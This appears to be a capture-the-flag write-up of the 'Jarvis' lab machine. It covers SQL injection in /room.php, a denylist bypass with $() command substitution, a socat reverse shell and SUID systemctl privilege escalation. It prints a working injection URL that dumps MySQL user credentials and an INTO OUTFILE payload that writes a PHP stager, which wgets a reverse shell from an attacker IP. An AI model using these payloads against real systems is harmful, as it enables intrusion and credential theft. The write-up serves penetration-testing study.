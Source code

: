 # Jarvis

## Summary

**Vulnerability Exploited:** SQLi in /room.php

**Vulnerablity Explanation:** A SQL injection vulnerability in the /room.php script on the web server allows an attacker to dump sensitive database information and even write a web shell to the server.

**Privilege Escalation Vulnerability:** /bin/systemctl SUID

## Penetration

### Initial Foothold

![](screenshots/nmap-tcp.png)

We find a hotel web page on the main web server.

![](screenshots/homepage.png)

Gobuster finds a /phpmyadmin installation, which suggests MySQL is being used on the server.

![](screenshots/gobuster-80.png)

Playing with the /room.php script, we find it is vulnerable to SQL injection through its cod parameter. Enumerating with the typical "order by x" trick, we find that the output has seven fields, and fields 2 and 4 are text fields. We can enumerate the database in through these fields. For example, we can dump the database usernames and passwords with

**10.10.10.143/room.php?cod=-1+union+all+select+1,User,3,Password,5,6,7+from+mysql.user--**

![](screenshots/sqli.png)

Crackstation cracks this password easily.

![](screenshots/crackstation.png)

We could use this password to log into /phpmyadmin and attempt to get a shell that way. However, we can also use the SQLi vulnerability to write a shell to the web server using the MySQL outfile functionality. It's a bit tricky to write a full reverse php shell in this way, but we can use the following code to write a first stage that will download our typical php reverse shell from our web server to the victim's.

**http://10.10.10.143/room.php?cod=-1+union+all+select+1,2,3,%27%3C?php%20system(%22wget%20http://\<attacker ip\>/shell.php%22);?%3E%27,5,6,7+into+outfile+%27/var/www/html/stage.php%27--**

Visiting /stage.php downloads the full shell, which can then be launched from /shell.php.

![](screenshots/www-proof.png)

### User Flag

![](screenshots/sudo-l.png)

Www-data is able to execute a certain python script as pepper with no password. Investigating the script more closely shows that it can be used to execute ping on user input.

![](screenshots/exec-ping.png)

The script makes an attempt to sanitize user input to prevent unexepected code execution with a denylist. However, as is typical for a denylist, not every malicious character is excluded. We can still execute arbitrary code using the $(\<code\>) instruction. Using $(/bin/bash) would be simple enough but seems to (at least sometimes) cause unexpected behavior. Instead we can write a malicious script to get a launch a new reverse shell, download it to the victim with wget, and execute it.

![](screenshots/shell-sh.png)

(Note that the version of socat used here is [statically compiled](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat). There's probably no reason to use socat here besides my personal preference, so feel free to use any other kind of reverse shell.)

![](screenshots/simpler.png)

![](screenshots/pepper-proof.png)

### Root Proof

![](screenshots/find-suid.png)

/bin/systemctl runs with SUID, which is a well-known privilege escalation vulnerability. (Normally, we could have skipped moving laterally to the pepper account and gone straight from www-data to root, but www-data could not execute systemctl.) The exploit from [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/) needs some significant tweaking. In particular, it seems that neither the evil service file, nor the script it executes on startup, nor anything called by that script can be in the /tmp directory.

![](screenshots/priv-esc.png)

![](screenshots/root-proof.png)